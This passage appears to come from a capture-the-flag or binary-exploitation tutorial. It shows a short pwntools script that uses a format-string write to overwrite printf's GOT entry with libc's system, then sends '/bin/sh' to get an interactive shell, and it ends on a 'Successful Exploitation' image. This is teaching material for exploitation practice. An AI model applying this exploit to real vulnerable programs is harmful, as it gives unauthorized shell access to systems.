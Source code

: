 ```python
# Manual, like in notes.txt
# format_string.write(0x0804c00c, p16(0xf040))  # Lower-order
# format_string.write(0x0804c00e, p16(0xf7df))  # Higher-order
# Or automagically
format_string.write(elf.got.printf, libc.symbols.system)

# Execute the format string writes
format_string.execute_writes()

# Get our flag!
io.sendline(b'/bin/sh')
io.interactive()
```

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption><p>Successful Exploitation</p></figcaption></figure>
